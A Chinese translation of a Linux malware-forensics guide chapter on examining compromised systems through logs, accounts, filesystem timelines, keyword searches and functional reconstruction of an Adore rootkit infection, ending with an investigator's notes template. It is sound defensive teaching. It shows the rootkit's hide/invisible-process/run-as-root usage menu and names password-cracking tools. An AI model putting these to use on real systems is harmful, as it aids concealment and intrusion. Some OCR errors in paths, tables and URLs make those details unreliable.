Linux 系统维护各种记录系统事件和用户账户活动的日志。Linux 系统上的主日志通常称为 `messages` 或 `syslog`，安全日志记录特定于安全的事件。某些 Linux 系统还配置了审计子系统（例如 SELinux），用于记录特定事件，如配置文件的更改。这些日志的详细程度取决于特定机器上是如何配置日志记录的。

- 系统日志：记录在系统日志和安全日志中的登录事件（包括通过网络登录）可以揭示恶意软件或入侵者在特定时间何时通过给定账户访问受损系统。在恶意软件感染时间点周围的其它事件可以在系统日志中捕获，包括事件发生期间创建的新服务或新账户。大多数 Linux 日志是纯文本格式的，可以使用多种工具进行搜索，包括 `grep` 和能够过滤特定类型事件的 `Splunk`。

某些攻击会在日志中创建独特的模式，这可能揭示攻击向量。例如，缓冲区溢出攻击可能会产生许多带有长度输入字符串的日志条目，如 `messages` 日志中的图 3.1 所示。

```
Apr 07:47:26 localhost SEVER[15651]: Dispatch input: bad request line
'DB'A6;y0'A6;y0'A6;y0000000000000000000000000000000000000000000000000000000000000000000000

```

## 恶意软件取证指南——LINUX 系统

## 第 3 章：事后取证

179


图 3-12 使用 The Sleuth Kit 和 Autopsy 查看命令历史

- 桌面防火墙日志：当 Linux 防火墙（如 `iptables`）和其他安全程序（例如 `tcp_wrappers`）在数据包级别运行时，它们会在高层应用程序处理之前拦截每个数据包，因此可能配置为验证受损系统上的详细日志。
- 杀毒软件日志：当 Linux 系统被入侵时，杀毒软件可能会检测并阻止某些恶意活动。此类事件将记录在带有相关时间戳的日志文件中（例如 `/var/log/clamav/`），任何隔离的项可能被杀毒软件存储在存放区域。
- 崩溃转储：`abrt` 服务可以捕获崩溃并产生调试信息的程序。当 `abrtd` 捕获崩溃程序时，它会创建一个名为 `coredump` 的文件（默认位于 `/var/spool/abrt`），包含崩溃时的内存内容，这可能提供攻击者 IP 地址等有用信息。

> http://www.splunk.com/

# LINUX 系统恶意软件取证实战指南

- 并非所有程序在所有情况下都会在 Linux 日志中记录，且入侵者安装的恶意软件通常会绕过标准日志机制。
- 在入侵或恶意软件事件中，Linux 系统日志和审计子系统可能会被禁用或删除。事实上，由于 Linux 系统上的日志通常包含有关恶意活动的一些最有用信息，入侵者会删除这些日志。因此，在检查可用的日志文件时，寻找可能指示删除或篡改的间隙或乱序条目非常重要。由于 Linux 在正常运行期间会定期生成日志，作为服务器且不经常关机的系统不应该出现长时间的日志间隙。例如，当日志加载到 `Splunk` 时，会自动生成按天划分的事件直方图，并显示表明删除的间隙。此外，正如本章稍后“检查 Linux 文件系统”部分讨论的，建议在未分配空间中搜索已删除的日志条目。
- 请记住，缓冲区溢出的日志仅表明发生了缓冲区溢出，而不代表攻击已成功。要确定攻击是否成功，有必要检查攻击后系统上的活动。
- Rootkit 和被木马化的服务往往不稳定并会周期性地崩溃。即使没有安装 ABRT 软件包，内核活动日志（例如 `dmesg`、`kern.log`、`klog`）也可以显示特定服务反复崩溃，这可能表明安装了不稳定的木马版本。

> 分析贴士

> 集中化 Syslog 服务器

> 在某些企业环境中，依赖 syslog 服务器来捕获日志，单台 Linux 计算机上的本地安全事件日志非常稀少。鉴于 syslog 服务器上的日志量巨大，保留期可能仅为几天，数字取证调查人员必须快速保存这些日志，否则将面临丢失这些信息的风险。

## 检查用户账户和登录活动

- 验证所有用于访问系统的账户均为合法账户，并确定这些账户是何时登录受损系统的。

# 第 3 章 事后取证

寻找受损系统上是否存在未经授权的创建新账户的情况、无密码的账户，或被添加到管理员组的现有账户。

- **未经授权的账户创建：** 检查 `/etc/passwd`、`/etc/shadow` 和安全日志，寻找异常名称，或在未经授权事件发生时附近创建/或使用的账户。
- **管理员组：** 建议检查 `/etc/sudoers` 文件，查看是否有意外账户被授予管理员权限，并检查 `/etc/groups` 寻找异常组以及未受本地或域级管理员组支持的用户。此外，要与系统管理员确认是否使用了集中化授权机制（例如 NIS、Kerberos）。
- **弱密码/空密码：** 在某些情况下，可能需要寻找没有密码或易于猜解密码的账户。多种工具都是为此目的设计的，包括 `John the Ripper`^9 和 `Cain & Abel`^10。彩虹表通过预计算密码的哈希表示并创建查找表来加速检查弱密码的过程.^11。

## 调查考虑因素

- 当反复尝试猜测密码时，失败的身份验证尝试（包括 `sudo` 尝试）可能非常重要。在一次调查中，入侵者在获得 Linux 服务器访问权限后直到猜出一个具有 root 权限账户的密码，他们反复使用 `sudo` 直到猜出密码。失败的 `sudo` 尝试被记录在系统日志中，但入侵者在获得 root 权限后删除了这些日志。被删除的日志条目通过对未分配空间进行关键词搜索被救回。
- 恶意软件或入侵者可能会覆盖日志条目以消除未经授权活动的痕迹证据。因此，请记住，已发生的活动在可用和救回的日志中并不显而易见，可能需要更多关注来自多个源的细节和关联信息，以更完整地理解恶意软件事件。在这种情况下，集中化 syslog 服务器或网络级日志（如 NetFlow）对于填补受损主机活动间隙具有无价的价值。

^9 www.openapi.com/john/

^10 http://www.oxid.it/cain.html.

^11 http://project-rainbowcrack.com 或 http://www.antsight.com.

# LINUX 系统恶意软件取证实战指南

> 分析贴士

> 与登录关联


> 将用户账户审查与系统上 Linux 安全日志的审查相结合，以确定登录时间、账户创建日期以及与受损系统用户账户活动相关的其他活动。这可以揭示未经授权的访问，包括通过 SSH 或其他远程访问方法进行的登录。

## 检查 Linux 文件系统

- 探索文件系统寻找恶意软件留下的痕迹。

文件数据结构可以包含大量与恶意软件事件相关的信息，包括事件发生的时间恶意软件的实际内容。虽然有各种用于取证检查的软件应用程序，但在应用于 Linux 文件系统时具有重大局限性。因此，有必要熟悉专为取证设计的工具，并使用多个工具双检重要发现。此外，恶意软件越来越多被设计用于破坏文件系统分析。某些恶意软件会修改文件的时间戳，使其更难以通过行分析发现。其他恶意代码被设计仅在内存中存储某些信息以应对此类反取证技术，有必要对文件系统日期时间戳以及存储在可能发现恶意软件常见位置的文件进行仔细分析。

- 初期挑战之一是确定最初关注哪些时期。一种方法是使用 Sleuth Kit 中的 `mactime` 直方图功能来寻找活动峰值，如图 3.13 所示。该命令的输出显示 2004 年 4 月 7 日（操作系统安装时）文件活动最多，出现了一个活动峰值。

```
#### mactime -b /tornkit/body -i index.
04/30/2004 07:00 6023
04/07/2004 08:00 3122
04/07/2004 09:00 4351
04/07/2004 10:00 4507
04/07/2004 13:00 95
04/07/2004 14:00 4036
04/08/2004 07:00 45
04/08/2004 08:00 4511
```

图 3.13 使用 `mactime` 创建的文件系统日期时间直方图

# 第 3 章 事后取证

- 搜索攻击者常用于聚合外泄信息的文件类型。例如，如果环境中未未使用 PGP 文件，搜索 `.asc` 扩展名和 PGP Header 可能会揭示与入侵相关的活动。

- 审查 `/usr/bin` 和 `/sbin` 目录的内容，寻找事件发生期间时间戳的文件、位于这些目录的脚本（例如 `.sh` 或 `.php` 脚本），或与任何已知程序相关的执行文件（哈希分析对此有帮助）。

- 由于 `/dev` 中的许多项目是指向块设备或字符设备的特殊文件（权限包含“b”或“c”），数字取证调查人员可以通过寻找普通（非特殊）文件和目录来发现恶意软件。

- 寻找异常或隐藏的文件和目录，例如 `.`（点空格）或 `^`（点点控制），因为这些可用于在系统中隐藏工具和信息。

- 入侵者有时会在系统中留下 `/bin/sh` 的副本，以便日后获得 root 权限。数字取证调查人员可以使用以下命令在整个文件系统中查找 root 文件：`find /mnt/evidence -user root -perm -0400 -print`

当在特定目录（例如 `/dev` 或 `/tmp`）发现恶意软件时，对该目录中其他文件的检查可能会揭示额外的恶意软件、嗅探器日志、配置文件和被盗文件。

- 寻找不应出现在受损系统上的文件（例如非法音乐库、盗版软件等）可以作为进一步分析的起点。例如，此类文件的位置或它们被放置在系统上的日期可以将取证分析的重点缩小到特定的区域或时间段。

- 行分析是组织和分析文件信息最强大的技术之一。将恶意软件相关文件与系统相关文件（如启动脚本和应用程序配置文件）的时间戳相结合，可以具有启发性地重建恶意软件事件周围的活动，包括初始攻击向量以及后续的渗透和数据窃取。

# Linux 系统恶意软件取证领域指南

- 检查已删除文件的 inode 修改时间戳，查看是否有大量文件在同一时间被删除，这可能表明存在恶意活动，例如安装 rootkit（根内核程序）或木马化服务。

- 由于 inode 是在下一个可用基准上分配的，在同一时间放置在系统上的恶意文件可能具有连续的 inode。因此，在定位恶意软件的一个组件后，此类 inode 分析的推论结果是在系统二进制文件中查找 inode 编号不符合常理的文件（Altheide and Casey, 2010）。例如，如图 3.14 所示，如果恶意软件被放置在 `/bin` 或 `/sbin` 目录中，或者应用程序被替换为木马化版本，新的 inode 号可能会显示为离群值，即新的 inode 号与其他其它文件的 inode 号不相似。



图 3.14—`/sbin` 目录中的木马化二进制文件的 inode 号与该目录下的大多数其他（合法）二进制文件存在显著差异

- 某些取证工具按字母顺序对目录项进行排序，而不是保留原始顺序。当恶意软件创建一个目录且条目附加到目录列表末尾时，这可能非常重要。例如，图 3.15 显示数字取证框架（Digital Forensic Framework）在左窗口中显示 `/dev` 目录的内容，条目按它们在目录文件中存在的顺序排列，而不是按字母排序（`tyzec` 条目是最后添加的，包含 adore rootkit 文件）。在这种情况下，目录位于最后的这一事实有助于判断其是最近创建的，即使日期时间戳已使用反取证方法进行了篡改。

| 分区 4 | 键 | 值 |

| --- | --- | --- |

| extfs | size 0 | |

| | attributes | attributes |

| | File system | adore-ng | 地址 33564576 (0x0200800) |

| | lost-found | | 文件模式驱动器-x |

| | boot | adore-ng | 碎片块 0-000 |

| | der | | 碎片索引 0-000 |

| | pts | | 碎片大小 0-000 |

| | ataraid | adore-ng | 组 4-000 |

| | compaq | | 内部使用范围区 230-00 |

| | cpu | | 链接数 |

| | i2o | ava | Nfs 生成号 0x01f6-0xdd3 |

| | clean | clean.c | 设置 UID / GID? 是 / 否 |

| | ida | | GID 0/0 |

| | inet | clean.c | 访问 2008-02-20 21:59:23 |

| | logicalco | | 修改 2008-02-20 21:59:36 |

| | net | | 修改 2008-02-20 21:59:39 |

| | raw | clean.c | | ext4-extended |

| | rd | | 块指向总项目数 (2) 33029-33029 |

| | screandisk | | 33029-33046 |

| | shm | | 无 |

| | usb | | 双重索引总项目数 (1) 33046-33149 |

| | types | | 单索引 无 |

| | log | | 三重索引 无 |

| | home | in_vectors.h | 类型 magic 目录 |

| | proc | in_vectors.h | magic mime application/x-directory |

图 3.15–使用数字取证框架显示的 rootkit 目录，该框架保留了目录顺序

- 一旦在 Linux 系统上识别出恶意软件，即可通过权限确定其所有者，如果所有者不是 root，则查找由该违规账户拥有的其他文件。

## 调查考虑因素

- 通常可以缩小计算机上恶意活动发生的时间段，数字取证人员可以在系统上创建事件时间线，以识别恶意软件和相关组件（例如捕获日志）。

- 有许多取证技术可以检查 Linux 文件系统，这些技术需要对底层数据结构（如 inode 表和日志条目）熟悉。。，为了减少忽略重要信息的风险，对于恶意软件事件中的每个文件和时间段，建议使用 Linux 取证工具以系统且全面的方法查找相关/周围节点、目录项、名称和日志条目中的模式。

# Linux 系统恶意软件取证领域指南

- 尽管恶意软件伪造文件的修改时间 `mtime` 变得越来越常见，但 inode 更改时间 `ctime` 通常不会更新。`mtime` 和 `ctime` 之间的差异可能表明日期时间戳已经过人工操纵（例如，`mtime` 早于 `ctime`）。

- EXT3 和 EXT4 日志包含文件系统记录的引用，可以使用 TSK 中的 `jls` 和 `jcat` 工具进行检查。^12

- 恶意软件中反取证技术的使用越来越多，使得在文件系统中寻找痕迹变得更加困难。为了应对这一挑战，请使用来自其他来源的所有信息来指导取证分析。

# 检查应用程序轨迹

Linux 系统没有像 Windows 那样的中央信息库，但单个应用程序会维护痕迹。以下是一些应用程序示例：

- SSH: 到远程主机的连接。`/.ssh/authorized_keys` 和 `~/.ssh/known_hosts`。

- Gnome 桌面: 最近访问的文件。`/.recently-used`。

- VIM: 最近打开的文件。`/.viminfo`。

- MySQL: 执行的查询。`/.mysql_history`。

- Less: 执行的 Shell 命令。`/.lesshst`。

^12 Gregorio Navez “在调查中利用 Ext3 日志系统”，http://www.sans.org/reading_room/whitepapers/forensics/advantage-ext3-journaling-file-system

# 第 3 章 事后取证



图 3.16-root 账户使用 SSH

- 考虑到 Linux 上各种应用程序，创建一个完整的轨迹列表是不可能的。寻找其他应用程序轨迹的有效方法是搜索恶意软件事件期间创建或修改的文件。

# 关键字搜索

当你知道寻找什么但不知道在系统的哪里寻找时，关键字搜索是有效的。恶意软件事件的某些特征足够独特，值得对系统进行广泛搜索。此类独特项目包括：

- 恶意软件特征: 入侵常用的工具名称和与已知恶意软件相关的字符串可以作为关键字（例如：`trojan`, `hack`, `sniff`）。某些 rootkit 扫描工具的名称与已知恶意软件相关，但仅在活动文件中搜索，而不搜索未分配空间。

rootkit 有自己的隐藏配置文件，包括进程名和 IP 地址。此类配置文件可以提供关键字，用于在受攻击系统和网络流量查找其他恶意文件或活动。搜索与恶意软件相关的受攻击系统有助于找到与相关的文件，如 Adore rootkit 的图 3.17 和 3.18 所示。



图 3.17–使用 PTK 索引搜索搜索字符串 "adore"



图 3.18–使用 SMART 取证工具搜索字符串 "adore"

^13 www.dflabs.com.

14 www.asrdata.com.

## 第 3 章 事后取证

- **命令行参数：** 寻找恶意软件用于执行进程、从网络上的其他系统获取信息或提取数据的命令，可以揭示与入侵相关的额外信息（例如 `openvpn`、`vncviewer`）。

- **IP 地址：** IP 地址可能以人类可读的十进制格式（例如 172.16.157.136）以 ASCII 和 Unicode 格式存储，也可以以十六进制格式（例如 `ac 10 9d 88`）表示，且均包括小端序和大端序格式。因此，可能需要为单个 IP 地址构建多个关键词。

- **URL：** URL 中使用的标准字符编码（如用 `%20` 表示空格，用 `%2E` 表示 `.`）会影响关键词搜索。因此，可能需要为单个 URL 构建多个关键词。

- **主机名：** 用于与受害的系统建立远程连接的计算机主机名可能出现在各种位置，包括系统日志。

- **密码语：** 搜索与恶意代码相关的密码语和加密密钥可以发现与恶意软件相关的额外信息。

- **文件特征：** 文件类型的扩展名和头部（例如 `.asc`、`.rar`、`.7z`）可以找到数据窃取的证据。

- **时间戳：** 恶意软件事件期间删除的系统日志可能仍然存在于未分配空间中。使用系统日志中常用的时间格式，可以在未分配空间中搜索恶意软件事件期间左右的删除日志条目。图 3.19 中的命令搜索取证副本未分配空间中任何日期为 11 月 13 日的记录，并打印每个匹配行的字节偏移。

```
# blkls -A /evidence/phalanx2.2 | strings -t d | grep "Nov 13"
```

**图 3.19**——通过使用 The Sleuth Kit 中的 `blkls` 工具从取证副本中提取未分配空间并搜索字符串，找回 11 月 13 日的删除日志条目。

### 分析技巧

**智能搜索**

Linux 中利用分区来分类不同类型的数据可以使关键词搜索更有效。例如，数字调查人员可能无需扫描整个硬盘，而是通过搜索包含日志文件的分区来恢复所有被删除的日志条目。

## 受损 Linux 系统的取证重建

执行全面的取证重建可以为数字调查人员提供对恶意软件事件的详细理解。

尽管在开始取证检查之前创建时间线似乎不符合直觉，但这种做法有充分的理由。对恶意软件事件相关的可用信息进行时间分析应被视为一种分析工具，而不仅仅是取证检查的副产品。即使是制定操作时间线的简单行为也可以揭示感染方法以及随后在系统上的恶意活动。因此，每发现一条恶意软件痕迹，都应将任何时间信息插入时间线中，直到分析人员对发生的情况完成全面的重建。当多个数字调查人员检查可用数据源时，将他们的发现合并到一个共享的时间线对于获取整体事件的视图至关重要。

在恶意软件的原始环境中交互有助于更好地理解其功能原理。对受损的 Linux 系统进行功能分析涉及创建系统的启动克隆并对其进行检查。

- 创建启动克隆的一种方法是使用 Live View。VMware 的快照功能为数字调查人员对实际受害者克隆镜像进行动态分析提供了极大的便利。执行功能重建的另一种方法是将取证副本恢复到硬盘上，并将恢复后的驱动器插入原始硬件。当恶意软件检测到其运行在虚拟环境中并采取规避措施以阻止取证检查时，这样做是必要的。某些恶意软件可能会寻找受损系统特定的特征，例如网络接口地址（MAC）。因此

- 作为一个功能分析用性的示例，考虑一个被 Adore rootkit 攻破的系统。在这种情况下，发现恶意软件位于 `/dev/ttyec` 目录，该目录是隐藏的（在活动系统中不存在），但在取证分析期间被观察到，数字调查人员使用受损系统的启动克隆观察了两个相关工具的功能，如图 3.20 所示。切换到隐藏目录并输入 `ls` 显示了 Adore rootkit 文件的组件。运行 Adore 主程序会显示用例，包括一个卸载选项。

```
# cd /dev/tyec
# ls
adore-ng.o ava cleaner.o log relic startardore swap
symed zero.o
```

```
# /ava
Usage: ./ava [file or PID]

-I print info (secret UID etc)
h hide file
u unhide file
r execute as root
r Remove PID forever
 Uninstall adore
 i make PID invisible
v make PID visible
```

```
# /ava U
Checking for adore 0.12 or higher ...
Adore 0.41 de-installed.
Adore 1.41 installed. Good luck.
```

图 3.20——在加载到 VMware 的取证副本上，使用 Live View 对 Adore rootkit 进行功能分析。

- 在为复原的受害系统安装 Adore rootkit 后，之前隐藏的端口 31337 现在变得可见，并清晰地与 "klogd" 进程关联，如图 3.21 所示。


```
# netstat -ang
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address Foreign Address
PID/Program
tcp 0 0 0.0.0.0:135 0 0.0.0.* LISTEN
tcp 0 0 0.0.0.0:445 0 0.0.0.* LISTEN
tcp 0 0 0.0.0.0:139 0 0.0.0.* LISTEN
tcp 0 0 0.0.0.0:123 0 0.0.0.* LISTEN
tcp 0 0 0.0.0.0:513 0 0.0.0.* LISTEN
tcp 0 0 0.0.0.0:514 0 0.0.0.* LISTEN
tcp 0 0 0.0.0.0:80 0 0.0.0.* LISTEN
tcp 0 0 0.0.0.0:443 0 0.0.0.* LISTEN
tcp 0 0 0.0.0.0:31337 0 0.0.0.* LISTEN
udp 0 0 0.0.0.0:53 0 0.0.0.*
udp 0 0 0.0.0.0:137 0 0.0.0.*
udp 0 0 0.0.0.0:138 0 0.0.0.*
udp 0 0 0.0.0.0:161 0 0.0.0.*
udp 0 0 0.0.0.0:190 0 0.0.0.*
udp 0 0 0.0.0.0:535 0 0.0.0.*
udp 0 0 0.0.0.0:568 0 0.0.0.*
udp 0 0 0.0.0.0:569 0 0.0.0.*
udp 0 0 0.0.0.0:697 0 0.0.0.*
udp 0 0 0.0.0.0:900 0 0.0.0.*
udp 0 0 0.0.0.0:1011 0 0.0.0.*
udp 0 0 0.0.0.0:1194 0 0.0.0.*
udp 0 0 0.0.0.0:1195 0 0.0.0.*
udp 0 0 0.0.0.0:1196 0 0.0.0.*
udp 0 0 0.0.0.0:1197 0 0.0.0.*
udp 0 0 0.0.0.0:1218 0 0.0.0.*
udp 0 0 0.0.0.0:1219 0 0.0.0.*
```

图 3.21——在复原系统上对 Adore rootkit 进行功能分析时，发现了之前隐藏的端口 `31337`。

## Linux 系统恶意软件实地指南

- 此外，一个名为 "`grepp`" 的不可见进程出现在 `ps` 输出中，如图 22 所示。

```
# /media/cdrom/ps aux | grep
root 5772 0 0.2 1684 552 ? S 17:31 00:01 grepp -t
172,16=/usr/bin/grepp OLDPWD=/dev/ttyec SHLVL=1
=/usr/bin/grepp OLDPWD=/dev/ttyec
```

图 3.22——对复原系统的 Adore toolkit 进行功能分析时，发现了之前隐藏的 `grep`。

## 调查考虑

- 在某些情况下，恶意软件防御机制可能会利用受损计算机的硬件特征（如 MAC 地址），此时可能必须在获取取证副本的受损系统原始硬件上使用克隆驱动。

## Linux 系统高级恶意软件发现与提取

对网络上的所有主机进行了特定恶意软件指标远程扫描。

- 自《恶意软件取证》于2008年出版以来，开发了更多工具来应对日益严重的恶意软件问题。这些软件旨在绕过信息安全最佳实践并在网络中传播，使犯罪分子即使有入侵检测系统和防火墙也能从公司和个人处窃取数据。

- 某些工具（如 `OSSEC Rootcheck`）可以检查组织管理的每台计算机是否有特定的恶意软件特征，并将结果报告到中心位置。在处理不受 `OSSEC` 配置覆盖的恶意软件时，可以配置此工具来寻找与恶意软件相关的特定文件或字符串。在搜索特定恶意软件时，包含所有默认 `OSSEC Rootcheck` 配置选项可能很有帮助，从而发现并非调查重点的恶意软件。

- 其他现成（OTS）取证工具如 `EnCase Enterprise`、`F-Response`、`FT Enterprise` 和 `SecondLook` 可以配置为检查系统文件和/或与特定恶意软件相关的特征。例如，`SecondLook` 企业版可用于命令行（`secondlook-cli -t secondlook@compromisedserver.org.net info`）或 GUI 扫描配置为运行代理和 `pmad.ko` 模块的远程系统，所示：

> 15 http://www.ossec.net/en/rootcheck.html.

## 第 3 章 事后取证分析

193

| 分析 | 告警 | 信息 | 反汇编 | 数据 |

|---|---|---|---|---|

| 目标分析生成了 82 条告警。 | 任务 gvfs-volume-a (id 1457) 中的 /jjynx/ynmx2so 可执行文件映射与 pagehash 数据库中的任何文件不匹配 | 任务 gvfs-ghoyoto-20 (id 1455) 中的 /jjynx/ynmx2so 可执行文件映射与 pagehash 数据库中的任何文件不匹配 | 任务 inductor-appli (id 1433) 中的 /jjynx/ynmx2so 可执行文件映射与 pagehash 数据库中的任何文件不匹配 | 任务 inductor-guardish (id 1429) 中的 /jjynx/ynmx2so 可执行文件映射与 pagehash 数据库中的任何文件不匹配 | 任务 in-rust (id 1427) 中的 /jjynx/ynmx2so 可执行文件映射与 pagehash 数据库中的任何文件不匹配 | 任务 in-panel (id 1415) 中的 /jjynx/ynmx2so 可执行文件映射与 pagehash 数据库中的任何文件不匹配 | 任务 udks-daemik (id 1412) 中的 /jjynx/ynmx2so 可执行文件映射与 pagehash 数据库中的任何文件不匹配 | 任务 kfc-indactor (id 1409) 中的 /jjynx/ynmx2so 可执行文件映射与 pagehash 数据库中的任何文件不匹配 | 任务 in-fyr (id 1406) 中的 /jjynx/ynmx2so 可执行文件映射与 pagehash 数据库中的任何文件不匹配 | 任务 kfc-power-4man (id 1405) 中的 /jjynx/ynmx2so 可执行文件映射与 pagehash 数据库中的任何文件不匹配 | 任务 kfc-fyrid (id 1398) 中的 /jjynx/ynmx2so 可执行文件映射与 pagehash 数据库中的任何文件不匹配 | 任务 kfc-kylid (id 1399) 中的 /jjynx/ynmx2so 可执行文件映射与 pagehash 数据库中的任何文件不匹配 | 任务 gnome-volme-co (id 1380) 中的 /jjynx/ynmx2so 可执行文件映射与 pagehash 数据库中的任何文件不匹配 | 任务 brohme-au (id 1387) 中的 /jjynx/ynmx2so 可执行文件映射与 pagehash 数据库中的任何文件不匹配 | 任务 in-update (id 1379) 中的 /jjynx/ynmx2so 可执行文件映射与 pagehash 数据库中的任何文件不匹配 | 任务 gfrud (id 1369) 中的 /jjynx/ynmx2so 可执行文件映射与 pagehash 数据库中的任何文件不匹配 | 任务 asfyr (id 1366) 中的 /jjynx/ynmx2so 可执行文件映射与 pagehash 数据库中的任何文件不匹配 | 任务 asetty (id 1346) 中的 /jjynx/ynmx2so 可执行文件映射与 pagehash 数据库中的任何文件不匹配 | 任务 xf-kspanel (id 1331) 中的 /jjynx/ynmx2so 可执行文件映射与 pagehash 数据库中的任何文件不匹配 | 任务 kfc-fyr (id 1337) 中的 /jjynx/ynmx2so 可执行文件映射与 pagehash 数据库中的任何文件不匹配 | 任务 xfmem4 (id 1335) 中的 /jjynx/ynmx2so 可执行文件映射与 pagehash 数据库中的任何文件不匹配 | 任务 xscreenaiver (id 1327) 中的 /jjynx/ynmx2so 可执行文件映射与 pagehash 数据库中的任何文件不匹配 | 任务 vfcold6 (id 1321) 中的 /jjynx/ynmx2so 可执行文件映射与 pagehash 数据库中的任何文件不匹配 |

图 3.23- 使用 `SecondLook` 在 Linux 系统上检测 `jynx2` rootkit。

**3.23.** 第 2 章涵盖了内存分析技术和工具的更多范围，包括 `SecondLook`。

- 此外，一些专门从事入侵调查的小组已经开发了工具，用于检查远程系统是否存在恶意代码的痕迹。例如，有时可以使用第 5 章讨论的恶意软件分析过程中获得的信息，开发一种基于网络的扫描器，“敲击”网络上远程系统的“门”，以确定是否存在特定的 rootkit。

## 结论

- 如果系统中存在恶意软件，可以通过本章概述的取证检查方法来发现它。遵循这种系统化的方法将发现与恶意软件事件的大多数证据，并具有每次执行取证检查时均可重复的额外优点。通过以一致的方式进行每次取证检查，并记录过程中的每一步，数字调查人员在工作被其他从业人员评估或进入法时将处于更有利的地位。

- 随着在受损系统中发现越来越多的痕迹证据，可以将它们结合起来，创建一个恶意软件事件的时间性、功能性和关系性重建。此外，从受损主机恢复的信息可以与网络级日志、内存以及恶意代码本身相关联，以获得更全面的恶意软件事件图景。

- 从一个受损主机中提取特征，用于在网络上的其他系统上搜索类似的受损痕迹。

## 应避免的陷阱

### 破坏证据

- 不要要在原始系统上执行本章概述的步骤。

- 创建原始系统硬盘的取证副本，并在副本上进行所有分析。这样在取证检查过程中就不会对原始证据进行任何修改。

- 为取证副本制作工作副本，以确保检查过程中出现的任何损坏或问题不会损坏唯一的副本。

### 遗漏或忘记证据

- 不要为了方便而跳过取证检查过程中的步骤。

- 制定调查计划并遵循它。这将确保你包含了所有必要的程序。

- 系统化地检查可能包含恶意软件痕迹的系统每个区域。

- 在执行工作时记录发现的内容，以免日后丢失或遗忘。等到完成后再记录会导致失败，因为在快速调查中细节可能会丢失或遗忘。

- 将所有数据源的信息整合到与事件相关的共享时间线上。

### 未整合相关信息

- 不要假设你已经掌握了关于事件的全信息。

- 在执行工作时记录发现的内容，以免日后丢失或遗忘。等到完成后再记录会导致失败，因为在快速调查中细节可能会丢失或遗忘。

- 确定事件的范围。

- 从一个受损主机中提取特征，用于在网络上的其他系统上搜索类似的受损痕迹。

## 现场笔记：Linux 调查

注意：本文文档并非旨在作为清单，而是作为在处理多个受损系统时增加一致性的指南。

| 案件编号 | 日期/时间 |

|---|---|

| 调查员姓名 | |

| 组织/公司 | |

| 事件类型 | |

| 地址 | |

| 工作站 | |

| Web 服务器 | |

| 物理硬盘 | |

| 已采集 | |

| 日期/时间: |

| 文件名: | |

| 大小: |

| MDS 值: |

| SHA1 值: |

| 使用的工具: |

## 恶意自启动项：

自启动描述：

自启动位置：

自启动描述：

自启动位置：

## 可疑用户账户：

- 系统上的用户账户：

- 账户创建日期：

- 登录日期

- 用户账户访问的共享内容、文件或其他资源：

- 与用户账户相关的进程：

- 归属于用户账户的网络活动：

- 与用户账户关联的口令：

- 系统上的用户账户：

- 账户创建日期：

- 登录日期

- 用户账户访问的共享内容、文件或其他资源：

- 与用户账户相关的进程：

- 归属于用户账户的网络活动：

- 与用户账户关联的口令：

## 计划任务：

- 已检查的任务

- 系统上计划运行的任务

- 是

- 否

- 识别出的可疑任务：

- 是

- 否

- 可疑任务

- 任务名称：

- 计划运行时间：

- 状态

- 描述：

- 任务名称：

- 计划运行时间：

- 状态

- 描述：

## 可疑服务：

- 已检查的服务

- 识别出的可疑服务：

- 是

- 否

- 识别出的可疑服务：

- 服务名称：

- 关联的可执行文件路径：

- 关联的启动脚本时间戳：

- 识别出的可疑服务：

- 服务名称：

- 关联的可执行文件路径：

- 关联的启动脚本时间戳：

## Linux 系统恶意软件取证指南

| 文件系统线索 | 待查找的存储介质制品： |

| :--- | :--- |

| 说明： | |

| 文件系统条目：已识别目录：远程打开//本地打开<br>文件名:<br>创建时间戳：<br>文件在系统中的位置（路径）：<br>文件在系统中的位置（簇）： | ☐已识别目录:<br>远程打开//本地打开<br>文件名:<br>创建时间戳：<br>文件在系统中的位置（路径）：<br>文件在系统中的位置（簇）： |

